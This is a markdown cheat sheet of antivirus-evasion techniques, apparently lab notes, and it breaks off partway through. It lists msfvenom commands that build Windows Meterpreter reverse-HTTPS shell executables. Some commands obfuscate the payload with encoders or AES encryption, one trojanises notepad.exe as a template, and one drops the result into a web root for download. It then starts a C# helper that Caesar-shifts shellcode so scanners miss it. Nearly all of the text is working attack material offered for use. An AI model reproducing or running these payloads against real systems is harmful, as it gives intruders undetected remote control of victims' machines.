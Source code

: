 # AV Evasion

## Basic Evasion

### **Metasploit Encoders**

```bash
msfvenom  --list encoders
sudo msfvenom -p windows/meterpreter/reverse_https LHOST=eth0 LPORT=443 -e x86/shikata_ga_nai -f exe -o met.exe

sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -e x64/zutto_dekiru -f exe -o met64_zutto.exe

# C:\Windows\System32\notepad.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

### **Metasploit Encryptors**

```bash
msfvenom --list encrypt

# generate an executable with aes256-encrypted shellcode and use a custom encryption key through the --encrypt-key option
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe
```

## **Bypassing AV with C#**

antiscan.me

Console App (.NET Framework) **Helper application that can encrypt our shellcode**

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Helper
{
    internal class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[636] { 0xfc, 0x48, 0x83, ..., 0x56, 0xff, 0xd5 };

			// Encryption routine with Caesar cipher with a substitution key of 2 which, while iterating through each byte value in the shellcode, adds 2 to its value.
			// We performed a bitwise AND operation with 0xFF to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds 0xFF.
            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
			// Prints the encrypted shellcode to the console
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
```